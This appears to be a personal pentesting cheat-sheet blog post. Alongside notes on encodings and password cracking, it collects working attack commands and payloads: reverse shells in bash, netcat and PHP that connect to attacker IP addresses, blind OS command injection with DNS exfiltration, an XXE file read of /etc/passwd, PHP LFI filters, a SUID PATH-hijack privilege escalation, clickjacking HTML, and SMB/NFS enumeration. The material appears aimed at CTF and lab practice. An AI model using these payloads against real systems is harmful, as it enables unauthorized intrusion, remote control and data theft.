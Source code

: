 ```yaml
---
layout: post
title: Useful Tricks and Tips
---
```

- Base32 is a common transfer encoding. It consists of 32-char set. These char-sets are usually alphabet in uppercase. 
- Base64 is another common transfer encoding. It consists of 64-char set. These char-sets are usually alphabet in uppercase and lowercase.
- Hex consists of 16 bits of binary. It also known as base16
- Rot 13 or known as rotate 13 is a form of Caesar cipher which rotate in 13 times.
- Rot 47 or known as rotate 47 is another form of Caesar cipher which rotate in 47 times. It encode almost all visible ASCII character.
- Morse code is a combination of signal made of short and long impulsion (dot and dash). It was designed for telecommunication.
- Binary-Coded Decimal (BCD) is a base10 encoding technique.

```bash
Cipher: 85 110 112 97 99 107 32 116 104 105 115 32 66 67 68
```
# Useful resource

[Reverse Engineering](http://docs.pwntools.com/en/stable/)
[Reverse Engineering](https://browserpwndbg.readthedocs.io/en/docs/)

# Hashcat

```bash
hashcat -m 1800 -a 0 hash.txt rockyou.txt
```

# Find command

```bash
find / -type f -newermt 2016-09-11 ! -newermt 2016-09-13 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

cd /tmp
echo /bin/sh > curl
chmod 777 curl 
export PATH=/tmp:$PATH
/usr/bin/menu
```

<img src="/assets/images/kenobi.png" style="align:center" />

# Upgrading to a shell

```bash
python -c 'import pty;pty.spawn('/bin/bash')'
SHELL=/bin/bash script -q /dev/null
```

# Reverse Shell

```bash
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.2.97 9001 >/tmp/f
bash -c "bash -i >& /dev/tcp/10.2.8.75/8080 0>&1"
```

# Blind OS injection

```bash

||whoami>/var/www/images/output.txt||

# using DNS exfiltration Technique

email=x||nslookup+x.burpcollaborator.net||

```

# XXE Attacks

```html
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```
# XSS payloads

```html
<script>onclick(alert("Hello"));</script>
// window.location.hostname

```

# John Hashing

```sh

john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash1.txt
```

# Encryption gpg
- gpg --cipher-algo [encryption type] [encryption method] [file to encrypt] 
- gpg --cipher-algo AES-256 --symetric xyz.txt

## decryption
-- gpg xyz.txt

# How to crack encrypted files using john the ripper
- gpg2john [encrypted gpg file] > [filename of the hash you want to create]

# Reverse a wordlist
```sh
tac data.txt > new_data.txt
```
# Email re

```bash

email_re = re.compile(r'([a-zA-Z0-9_\+\-\.]+)@(([[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.)|(([a-zA-Z0-9\-]+\.)+))([a-zA-Z]{2,4}|[0-9]{1,3})(\]?)')
```

## Php reverse shell function

```php

<?php 

function execInBackground($cmd) {
    if (substr(php_uname(), 0, 7) == "Windows") {
            pclose(popen("start /B ". $cmd, "r"));
    }else{ 
      exec($cmd . " > /dev/null &");}}
    execInBackground("/bin/bash -c 'bash -i >& /dev/tcp/10.8.2.XX/9001 0>&1'");
?>

```


# PHP LFI

```bash
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```
# Practice Labs
Capture the Flag (CTF) API Portal

    docker pull sbacker/ctfapi
    docker run --name ctfapi1 -p 8000:8000 -it -d sbacker/ctfapi

Witcher Portal

    docker pull sbacker/witcherportal
    docker run -it -d --name witcher10 -p8080:8080 -e PYTHONUNBUFFERED=1 sbacker/witcherportal

# Clickjack Attack Payload

```html
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acbe1f391e8fd65480c7a7ac017500d7.web-security-academy.net/exploit"></iframe>

```
# Enumerating Samba
-SMB has two ports, 445 and 139
- On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.


Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve.

In our case, port 111 is access to a network file system. Lets use nmap to enumerate this.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.89.231
mkdir /mnt/kenobiNFS
mount machine_ip:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```


```bash
On most distributions of Linux smbclient is already installed. Lets inspect one of the shares.

smbclient //<ip>/anonymous
smbget -R smb://<ip>/anonymous
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.89.231

```
